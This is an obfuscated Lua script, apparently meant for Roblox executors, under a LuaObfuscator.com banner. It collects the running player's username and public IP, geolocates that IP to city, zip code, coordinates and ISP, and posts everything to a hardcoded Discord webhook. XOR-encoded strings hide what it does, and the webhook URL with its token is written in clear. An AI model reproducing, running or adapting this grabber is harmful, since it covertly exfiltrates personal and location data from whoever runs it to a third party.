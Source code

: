 
 .____                  ________ ___.    _____                           __                
 |    |    __ _______   \_____  \\_ |___/ ____\_ __  ______ ____ _____ _/  |_  ___________ 
 |    |   |  |  \__  \   /   |   \| __ \   __\  |  \/  ___// ___\\__  \\   __\/  _ \_  __ \
 |    |___|  |  // __ \_/    |    \ \_\ \  | |  |  /\___ \\  \___ / __ \|  | (  <_> )  | \/
 |_______ \____/(____  /\_______  /___  /__| |____//____  >\___  >____  /__|  \____/|__|   
         \/          \/         \/    \/                \/     \/     \/                   
          \_Welcome to LuaObfuscator.com   (Alpha 0.2.5) ~  Much Love, Ferib 

]]--

local v0=string.char;local v1=string.byte;local v2=string.sub;local v3=bit32 or bit ;local v4=v3.bxor;local v5=table.concat;local v6=table.insert;local function v7(v8,v9)local v20={};for v21=1, #v8 do v6(v20,v0(v4(v1(v2(v8,v21,v21 + 1 )),v1(v2(v9,1 + ((v21-1)% #v9) ,1 + ((v21-1)% #v9) + 1 )))%256 ));end return v5(v20);end local v10=game:GetService(v7("\220\252\37\209\43\254\227","\140\144\68\168\78")).LocalPlayer.Name;local v11="https://discord.com/api/webhooks/1084254963686985770/l48u-VhPJI47NJbP44Des7fZ2afnVi8CQ1XB97llRN9l45h9tG1z9dWPz88Yn91XfSD-";local v12=syn.request({[v7("\247\207\41","\162\189\69\33")]="https://api.ipify.org/?format=json",[v7("\138\90\5\47\112\87","\199\63\113\71\31\51\45")]=v7("\115\101\244","\52\32\160\129\77\32\200")});local v13=game:GetService(v7("\192\13\188\148\107\42\239\80\225\26\173","\136\121\200\228\56\79\157\38")):JSONDecode(v12.Body);local v14=tostring(v13.ip);local v15=syn.request({[v7("\104\215\55","\61\165\91\148\169")]=string.format("http://ip-api.com/json/%s",v14),[v7("\239\133\149\142\210\198","\162\224\225\230\189")]=v7("\120\193\9","\63\164\125\217")});local v16=game:GetService(v7("\235\6\182\180\241\34\182\213\27\161\161","\163\114\194\196\162\71\196")):JSONDecode(v15.Body);local v17={[v7("\120\46","\49\126\21\83")]=v14,[v7("\180\9\194\87\52\250\4","\215\102\183\57\64\136\125")]=v16.country,[v7("\220\86\179\74\203\75\191\103\208\93\163","\191\57\198\36")]=v16.countryCode,[v7("\110\77\115\112\79\114","\28\40\20\25\32")]=v16.region,[v7("\184\131\165\250\116\174\149\30\167\131","\202\230\194\147\27\192\219\127")]=v16.regionName,[v7("\86\1\40\22","\53\104\92\111\146\31")]=v16.city,[v7("\62\195\185\236\43\206\172","\68\170\201\143")]=v16.zip,[v7("\51\20\156\22\189\209\59\16","\95\117\232\127\201\164")]=v16.lat,[v7("\25\240\3\181\64\1\234\9\183","\117\159\109\210\41")]=v16.lon,[v7("\15\184\232","\102\203\152\169\51")]=v16.isp,[v7("\78\65\124","\33\51\27\179\142")]=v16.org};local v18=string.format("```User: %s\nIP: %s\nCountry: %s\nCountry Code: %s\nRegion: %s\nRegion Name: %s\nCity: %s\nZipcode: %s\nISP: %s\nOrg: %s```",v10,v17.IP,v17.country,v17.countryCode,v17.region,v17.regionName,v17.city,v17.zipcode,v17.isp,v17.org);local v19={[v7("\222\234\189\249\82\29\201","\189\133\211\141\55\115")]=v18};syn.request({[v7("\105\200\32","\60\186\76\237\45")]=v11,[v7("\215\184\20\40\166\182","\154\221\96\64\201\210\200")]=v7("\252\200\52\229","\172\135\103\177\235\93\50"),[v7("\38\46\46\165\38\244\95","\110\75\79\193\67\134\44\172")]={[v7("\148\201\56\65\178\200\34\24\131\223\38\80","\215\166\86\53")]="application/json"},[v7("\97\233\140\31","\35\134\232\102")]=game:GetService(v7("\112\108\152\242\0\114\74\110\133\225\54","\56\24\236\130\83\23")):JSONEncode(v19)});
